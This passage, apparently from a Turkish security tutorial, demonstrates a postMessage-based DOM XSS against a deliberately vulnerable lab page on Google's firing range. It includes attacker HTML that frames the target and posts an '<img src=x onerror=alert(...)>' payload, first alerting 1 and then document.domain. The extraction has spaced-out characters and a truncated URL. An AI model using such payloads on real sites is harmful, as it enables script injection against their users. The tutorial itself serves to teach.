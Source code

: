 `         `t ar get . addEvent Li st ener ( ' l oad' ,  f unct i on( ) {![](Aspose.Words.cccac844-d5dd-4f8a-a005-2e49c7480041.019.png)

`             `/ / bur adan  i f r ame  i çer i si ne  bi r  mesaj  gönder eceği z

`             `var  payl oad  =  {' ht ml ' : ' <i mg  sr c=x  oner r or =al er t ( 1) >' };

`             `t ar get . cont ent Wi ndow. post Message( JSON. st r i ngi f y( payl oad) , ' \*' ) ; 

`             `/ / post Message  f r ame' l er  ar ası  i l et i şi mi  sağl amakt aydı .           

`         `}) ; 

`         `t ar get . sr c=

`         `"ht t ps: / / publ i c- f i r i ng- r ange. appspot . com/ dom/ t oxi cdom/ post Message/ i nner H      </ scr i pt >

</ ht ml >

Bu sayede artık XSS payload’ımıza göre sayfada yüklenmeye çalışılan resim hata vereceği için alert(1) pop-up uyarısı başarıyla gösterilmiş durumda.

![](Aspose.Words.cccac844-d5dd-4f8a-a005-2e49c7480041.020.png)

XSS Payload’ının çalışması

Burada çalışan pop-up kendi web sitemizin içerisinde olan bir şey değildir. Iframe ile yüklettiğimiz sayfanın domain’inde çalışmaktadır. Bunu da teyit etmek için alert(1) yazdırmak yerine ‘document.domain’ yazdırarak tespit edebiliriz.

<ht ml >![](Aspose.Words.cccac844-d5dd-4f8a-a005-2e49c7480041.021.png)

`     `<i f r ame  i d="t ar get "  sr c="">

</ i f r ame>

`     `<scr i pt >

`         `var  t ar get  =  document . get El ement ByI d( ' t ar get ' ) ;

`         `t ar get . addEvent Li st ener ( ' l oad' ,  f unct i on( ) {

`             `/ / bur adan  i f r ame  i çer i si ne  bi r  mesaj  gönder eceği z

`             `var  payl oad  =  {' ht ml ' : ' <i mg  sr c=x  oner r or =al er t ( document . domai n) >' };              t ar get . cont ent Wi ndow. post Message( JSON. st r i ngi f y( payl oad) , ' \*' ) ; 

`             `/ / post Message  f r ame' l er  ar ası  i l et i şi mi  sağl amakt aydı .           

`         `}) ; 

`         `t ar get . sr c=

`         `"ht t ps: / / publ i c- f i r i ng- r ange. appspot . com/ dom/ t oxi cdom/ post Message/ i nner H      </ scr i pt >

</ ht ml >

Hangi domain’de çalıştığını da bu pop-up ile görmüş oluruz.
